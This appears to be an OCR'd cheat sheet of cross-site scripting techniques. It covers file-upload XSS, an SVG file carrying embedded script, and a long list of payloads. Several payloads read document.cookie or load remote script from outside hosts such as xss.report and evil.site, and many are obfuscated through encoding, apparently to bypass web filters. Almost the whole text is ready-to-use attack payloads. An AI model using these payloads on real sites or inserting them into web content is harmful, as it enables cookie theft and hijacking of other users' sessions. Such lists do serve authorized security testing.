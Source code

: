 - **File upload To XSS**
	
	```jsx
	## file upload  through XSS
	upload a picture file, intercept it, change picturename.jpg to xss payload using intruder attack
	```
- **XSS via SVG file**
	```html
	<?xml version="1.0" standalone="no"?>
	<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
	
	<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
	   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
	   <script type="text/javascript">
	      alert("h0tak88r XSS");
	   </script>
	</svg>
	```
	
# Payload list 
```html
# karem bayloads
'"><script>alert('karem')</script> 
'"><img src=1 onerror="alert('Karem')">
'"><img src=1 onkarem=1 onerror="alert('Karem')"> 
<script/src=//6a%2elv></script> 
'"></script><script>alert(document.cookie)</script> 
%27"accesskey="x" onclick="alert(document.cookie)" x=" 
"><u>XSS Vulnerability</u><marquee+onstart='alert(document.cookie)'>XSS 
<details/open=/open/href=/data=;+ontoggle="(alert)(document.cookie)> 
"><iframe/src=javascript:alert%26%23x000000028%3b)> 
%22%3E%3Ciframe/src%3Djavascript%3Aalert%2526%2523x000000028%253b%29%3E%0A 
<svg onload=prompt%26%230000000040document.domain)> 
"'--<h1 onmouseover="alert('karem')" style="color: red;">karem</h1> 
"><button%20popovertarget=x>Click%20me</button>%20<input%20type="hidden"%20value="y"%20popover%20id=x%20onbeforetoggle=alert(document.cookie)> 
"><a href="javascript:alert('xss')">clickme</a>
<svg onload=prompt%26%230000000040document.domain)> 
'"><script>alert('karem')</script>@gmail.com 
%0Dalert`1`// 
"<script>alert</script>"@gmail.com 
"><img src=1 OnErRoR=alert('xss')> 
'"><script src=https://xss.report/c/karemelsqary74></script> 
"><svg/onload=alert.bind()(document.domain)> 
'`><\x00img src=xxx:x onerror=javascript:alert(1)> 
'"><<Svg/Only=1/OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>

# h0tak88r
<style>*{background-image:url('\\\\6A\\\\61\\\\76\\\\61\\\\73\\\\63\\\\72\\\\69\\\\70\\\\74\\\\3A\\\\61\\\\6C\\\\65\\\\72\\\\74\\\\28\\\\6C\\\\6F\\\\63\\\\61\\\\74\\\\69\\\\6F\\\\6E\\\\29')}</style>
%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%22%58%53%53%22%29%3C%2F%73%63%72%69%70%74%3E
[̕h+͓.＜script/src=//evil.site/poc.js>.͓̮̮ͅ=sW&͉̹̻͙̫̦̮̲͏̼̝̫́̕
"><input/onauxclick="[1].map(prompt)">
<img src=x onerror=eval(atob('YWxlcnQoJ0kgb25seSB3cml0ZSBsYW1lIFBvQ3MnKQ==')) />
'"--><Body onbeforescriptexecute="[1].map(confirm)">
'-prompt.call(window, 'xss')-'
<svg+onload=innerHTML=URL,outerHTML=textContent>#&ltimg/src/onerror=alert(domain)&gt
<img src=x onVector=X-Vector onerror=alert(1)>
%2sscript%2ualert()%2s/script%2u
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
toString=\\\\u0061lert;window+' '
"'-->aaaaa<h1 onclick=alert(1)>test
```